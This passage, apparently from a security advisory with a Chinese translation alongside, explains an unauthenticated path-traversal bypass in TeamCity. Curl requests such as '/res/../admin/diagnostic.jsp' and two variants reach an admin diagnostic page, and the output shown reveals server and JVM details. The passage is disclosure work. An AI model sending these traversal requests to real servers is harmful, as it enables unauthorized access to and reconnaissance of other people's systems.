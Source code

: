 ```makefile
C:\Users\sfewer>curl -ik --path-as-is http://172.29.228.65:8111/admin/diagnostic.jsp
HTTP/1.1 401
TeamCity-Node-Id: MAIN_SERVER
WWW-Authenticate: Basic realm="TeamCity"
WWW-Authenticate: Bearer realm="TeamCity"
Cache-Control: no-store
Content-Type: text/plain;charset=UTF-8
Transfer-Encoding: chunked
Date: Thu, 15 Feb 2024 13:00:40 GMT

Authentication required
To login manually go to "/login.html" page
```

However, by using the path `/res/../admin/diagnostic.jsp`, an unauthenticated attacker can successfully reach this endpoint, disclosing some information about the TeamCity installation. Note, the output below was edited for brevity.  
但是，通过使用路径 `/res/../admin/diagnostic.jsp` ，未经身份验证的攻击者可以成功到达此端点，从而泄露有关 TeamCity 安装的一些信息。注意，下面的输出是为了简洁而编辑的。

```bash
C:\Users\sfewer>curl -ik --path-as-is http://172.29.228.65:8111/res/../admin/diagnostic.jsp
HTTP/1.1 200
TeamCity-Node-Id: MAIN_SERVER

...snip...

          <div>Java version: 17.0.7</div>
          <div>Java VM info: OpenJDK 64-Bit Server VM</div>
          <div>Java Home path: c:\TeamCity\jre</div>

            <div>Server: Apache Tomcat/9.0.83</div>

          <div>JVM arguments:
            <pre style="white-space: pre-wrap;">--add-opens=jdk.management/com.sun.management.internal=ALL-UNNAMED -XX:+IgnoreUnrecognizedVMOptions -XX:ReservedCodeCacheSize=640M --add-opens=java.base/java.lang=ALL-UNNAMED --add-opens=java.base/java.io=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED --add-opens=java.base/java.util.concurrent=ALL-UNNAMED --add-opens=java.rmi/sun.rmi.transport=ALL-UNNAMED -Djava.util.logging.config.file=c:\TeamCity\bin\..\conf\logging.properties -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager -Djdk.tls.ephemeralDHKeySize=2048 -Djava.protocol.handler.pkgs=org.apache.catalina.webresources -agentlib:jdwp=transport=dt_socket,server=y,address=4444,suspend=n -Xmx1024m -Xrs -Dteamcity.configuration.path=../conf/teamcity-startup.properties -Dlog4j2.configurationFile=file:../conf/teamcity-server-log4j.xml -Dteamcity_logs=c:\TeamCity\bin\..\logs -Dignore.endorsed.dirs= -Dcatalina.base=c:\TeamCity\bin\.. -Dcatalina.home=c:\TeamCity\bin\.. -Djava.io.tmpdir=c:\TeamCity\bin\..\temp </pre>
          </div>
```

A request to the endpoint `/.well-known/acme-challenge/../../admin/diagnostic.jsp` or `/update/../admin/diagnostic.jsp` will also achieve the same results.  
对端点 `/.well-known/acme-challenge/../../admin/diagnostic.jsp` 或 `/update/../admin/diagnostic.jsp` 的请求也将获得相同的结果。
